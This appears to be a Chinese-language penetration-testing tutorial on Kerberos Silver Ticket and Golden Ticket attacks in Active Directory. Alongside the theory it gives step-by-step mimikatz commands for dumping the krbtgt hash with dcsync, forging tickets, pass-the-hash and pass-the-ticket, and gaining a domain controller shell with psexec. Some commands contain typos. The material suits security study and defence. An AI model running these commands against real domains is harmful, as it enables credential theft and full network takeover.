白银票据和黄金票据
1.白银票据
原理：在Kerberos认证的第三步，Client带着ST和Authenticator3向Server上的某个服务进行请求，Server接收到Client的请求之后,通过自己的Master Key 解密ST,从而获得 Session Key。通过 Session Key 解密 Authenticator3,进而验证对方的身份,验证成功就让 Client 访问server上的指定服务了。
所以我们只需要知道Server用户的Hash就可以伪造出一个ST,且不会经过KDC,但是伪造的门票只对部分服务起作用。
特点：1.不需要与KDC进行交互、2.需要目标服务的NTLM Hash
在第三步认证中Ticket的组成：Ticket=Server Hash(Server Session Key+client info+End Time)
当拥有server hash时，就可以伪造一个不经过KDC认证的ticket（当server session key在未发送ticket之前，服务器是不知道server session key是什么的，所以，一切来源于server hash）
攻击：使用mimikat进行kerberos进行攻击
首先用mimikatz在客户机上抓取信息：
1 | privilege::debug |

先清空之前存在的票据：kerberos : : purge

然后进行伪造票据：
1 | kerberos::golden /domain:<域名>/sid:<域SID>/target<目标服务器主机名> /service:<服务类型>/rc4:<NTLMHash> /user:<用户名> /ptt |
服务类型有


查看当前拥有的票据：kerberos::list

查看是否可以访问域控的资源：net use \\域控ip\磁盘符$，但是会要求认证

在使用win2008进行票据伪造的时候并没有认证。

查看访问的资源：dir \\域控ip\磁盘符$

后续要访问其他文件资源，直接在dir \\域控ip\磁盘符$跟文件夹，例如：dir \\域控ip\磁盘符$\test
另外也可以使用pth进行连接：sekurlsa::pth /user:administrator /domain:域控名 /ntlm:域控hsah值 ，执行后会弹出一个cmd框。之后再net use \\域控ip\磁盘符$连接即可。
注：另外，在win2003上操作时，票据无法成功创建，会报以下错误：
1 | ERROR kuhl_m_kerberos_ptt_data ; LsaCallAuthenticationPackage KerbSubmitTicketMessage : c000000d |
2.黄金票据
原理通过前面我们已经知道Kerberos的认证大致流程，在第二阶段认证的KRB_AS_REQ时，Client拥有两份加密的session Key,K( c,tgs )分别是:
1.用自己NTLM Hash加密的session Key.
2.用krbtgt用户的NTLM Hash加密的TGT。
前面我们说过，TGT只有KDC可以解密，这是因为TGT是使用krbtgt用户的NTLM Hash进行加密的，而该Hash只有KDC知道。但是这也意味着如果我们拥有krbtgt用户的Hash，那么意味着我们可以解密以及伪造TGT
使用mimikatz进行攻击
攻击：使用mimikatz
首先在域控上将krbtgt的用户hash使用mimikatz给dump下来：lsadump::dcsync /domain:域控名 /user:krbtgt

然后在客户机上执行
kerberos:.golden /domain:<域名>/sid:<域SID> /aes256:<aes256_hmac> /user:<任意用户名>/ptt
或者
kerberos:golden /domain:<域名>/sid:<域SID>/rC4:<KRBTGT NTLM Hash> /user:<任意用户名>/ptt
或者
kerberos: :golden /admin:Administrator /domain:<域名> /sid:<域SID> /krbtgt:<KRBTGT Hash NTLM> /ticket: Administrator.kiribi
生成一个票据文件

在使用ptt进行票据攻击：Kerberos::ptt Administrator.kiribi

此时已得到域控完整权限，可以使用psexec获得域控cmd权限：psexec [\\域控ip](file://域控ip) cmd

3.黄金票据和白银票据区别
1.获取权限不同
金票：伪造的TGT，可以获取任意Kerberos的访问权限
银票：伪造的ST，只能访问指定的服务，如CIFS
2.认证流程不同
金票：同KDC交互，但不同AS交互
银票：不同KDC交互，直接访问Server
3.加密方式不同
金票：由krbtgt NTLM Hash 加密
银票：由服务账号 NTLM Hash 加密
4.两者结果
金票：能够在域里边所有机器上都以administrator登录
银票：实用白银票据添加cifs后，dir由无权查看变为有权查看